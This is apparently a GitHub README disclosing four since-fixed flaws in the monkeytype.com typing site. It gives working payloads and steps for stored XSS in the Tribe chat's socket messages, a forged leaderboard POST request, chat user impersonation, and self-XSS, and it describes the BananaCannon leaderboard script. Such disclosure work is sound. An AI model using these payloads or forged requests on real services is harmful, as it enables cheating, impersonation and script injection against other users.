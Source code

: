
```
                      .="=.
                    _/.-.-.\_     _      
                    ( ( o o ) )    ))
                    |/  "  \|    //
    .-------.        \'---'/    //
    _|~~ ~~  |_       /`"""`\\  ((
=(_|_______|_)=    / /_,_\ \\  \\
    |:::::::::|      \_\\_'__/ \  ))
    |:::::::[]|       /`  /`~\  |//
    |o=======.|      /   /    \  /
    `"""""""""`  ,--`,--'\/\    /
                '-- "--'  '--'
  Vulnerability Research by Tyler Butler 🐒 
```

> {!} All vulnerabilities have been disclosed and since fixed by the developers in issues #1476 #1498 #1503 #1348 

# Banana Cannon 🍌
This repository contains vulnerability research on [monkeytype.com](https://monkeytype.com/), a popular typing-test application with a growing online community. Current research includes two cross-site scripting vulenrabilities, a proof of concept exploit that allows users to automatically top the leaderboard, and a proof of concept for impersonating other user's in Tribe chat via socket modification.



**Table of Contents**
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat-1476)
  - [Arbitrary Leaderboard Position via Improper Authorization ](#arbitrary-leaderboard-position-via-improper-authorization)
  - [Tribe Chat User Spoofing via Improper Authorization](#tribe-chat-user-impersonation--cwe-285-improper-authorization)
  - [Self Cross Site Scripting (XSS) via Word History](#self-cross-site-scripting-xss-via-word-history)
- [Proof of Concept Exploits](#proof-of-concept-exploits)
  - [BananaCannon.py](#BananaCannon)

# Identified Vulnerabilities

> The following section describes publically disclosed vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat #1476

![](img/tribe_stored_xss.gif)

### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments and username. The research concludes that client-side input validation can be evaded by intercepting raw web socket traffic, and injecting payloads directly into message content. To do so, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic with a proxy tool like BurpSuite, and finally modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability. The final payload was ```test<svg/onclick=alert`xss`>```

**Socket Message**

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```

![](img/tribe_stored_xss.png)


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


![](img/tribe_stored_xss_burp.png)


### Disclosure Timeline 

+ **May 27th, 2021**: Vulnearbility Discovered and Disclosed on Github per guidance as issue [#1476](https://github.com/Miodec/monkeytype/issues/1476)
+ **May 27th, 2021**: Patch issued


## Arbitrary Leaderboard Position via Improper Authorization

### Overview 

Monkeytype.com is vulnerable to authenticated bypass by spoofing in the leaderboard. Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to `/checkLeaderboards`. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

### Payload

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo2<script>console.log","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```

> After making the above post request, my user was added to the top of the leaderboard  


![](img/leader.png)  

## Tribe Chat User Impersonation | CWE-285: Improper Authorization

![](img/tribe_chat_impersonation.gif)

**Detail**: User messages in the [Tribe Chat](https://dev.monkeytype.com/tribe) can be impersonated due improper authorization. Malicious users can abuse current socket message authentication measures to create messages that appear to come from other users or system. 


**To Reproduce** <!-- Steps to reproduce the behavior: -->

> See video proof of concept above

1. Go to a tribe chat room, ex: https://dev.monkeytype.com/tribe_1d849e
2. Send a message, capturing the socket.io message. 
`42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"Hey this is still alice","from":{"id":"UocD_4qRZiXGbXf8AA-n","name":"alice"}}]`
3. Modify the name parameter, and re-send
`42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"Hey this is still alice","from":{"id":"UocD_4qRZiXGbXf8AA-n","name":"bob"}}]`  

**Expected behavior**: The socket.io implementation should use an authentication/token system to ensure that the user sending the message is authorized to be using their unique name. The socket.io [middleware](https://socket.io/docs/v3/middlewares/) function might be useful in achieving this. 




## Self Cross Site Scripting (XSS) via Word History

![](img/self_xss2.png)

### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### To Reproduce 

For a XSS payload, just start typing the following upon immediatly starting a new typing test ```"><svg/onclick=alert1`>```

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute

![](img/self_xss1.png)


# Proof of Concept Exploits  
## BananaCannon
### What is it? 
BananaCannon is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server located at `https://us-central1-monkey-type.cloudfunctions.net:443/checkLeaderboards`.

### How does it Work?  

BananaCannon works by sending a new post request to `https://us-central1-monkey-type.cloudfunctions.net:443/checkLeaderboards`, passing along a username, uid, and result details. Back-end logic on firebase checks the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters to ensure an acceptible score is being set. 

